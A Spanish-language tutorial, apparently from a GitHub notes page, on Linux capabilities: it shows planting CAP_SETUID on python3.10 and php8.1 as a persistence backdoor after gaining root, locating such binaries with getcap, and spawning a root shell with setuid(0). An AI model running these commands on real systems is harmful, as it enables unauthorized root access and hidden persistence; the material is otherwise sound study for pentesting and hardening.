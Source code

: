 Si bien hasta el momento podemos otorgar *permisos privilegiados* a un usuario ya sea con *SUID* o con *sudo*, pero tambien existen las *capabilities*.

¿Que son?
Son capacidades que se le puede asignar a un binario, existen varios [tipos de cabalilities](https://man7.org/linux/man-pages/man7/capabilities.7.html).
Como por ejemplo la capabilitie *CAP_SETUID* que hace referencia a la manipulacion de UID de los procesos.

Ahora supongamos que obtubimos acceso a un sistema con root, dejar alguna accion que nos permita escalar privilegios facilmente en caso de desconectarnos.

Vamos a asignar un capabilitie de tipo *CAP_SETUID* a algun binario.

``` bash
❯ setcap cap_setuid+ep /usr/bin/python3.10

❯ getcap /usr/bin/python3.10
/usr/bin/python3.10 cap_setuid=ep
```

Una vez hecho esto podemos buscar los binarios que tengan alguna capabilitie

	getcap -r / 2>/dev/null

Este tipo de capabilitie nos permite ejecutar comando como otro usuario, revelando su uid, cada usuario lo tiene, lo puede vizualizar con `id`, si bien sabemos el uid de root es 0.

``` bash
❯ getcap -r / 2>/dev/null
/usr/bin/python3.10 cap_setuid=ep

❯ ls -l /usr/bin/python3.10
.rwxr-xr-x root root 5.6 MB Thu Sep  8 09:34:29 2022  /usr/bin/python3.10
```

Como se puede observar no tiene permiso SUID pero si una capabilitie, ahora como hacemos uso de esta

``` bash
❯ python3.10 -c 'import os; os.setuid(0); os.system("/bin/bash")'
bash-5.2# whoami
root
```

*Remover una capabilitie*

	setcap -r /usr/bin/python3.10

Igualemente en [GTFobins ](https://gtfobins.github.io/#+capabilities) podemos encontrar algunas capabilities las cuales podemos utilizar para escalar privilegios.


*Explotacion con php*
``` bash
❯ setcap cap_setuid+ep /usr/bin/php8.1

❯ getcap /usr/bin/php8.1
/usr/bin/php8.1 cap_setuid=ep
```

``` bash
bash-5.2$ php -r "posix_setuid(0); system('/bin/bash');"
bash-5.2# whoami
root
```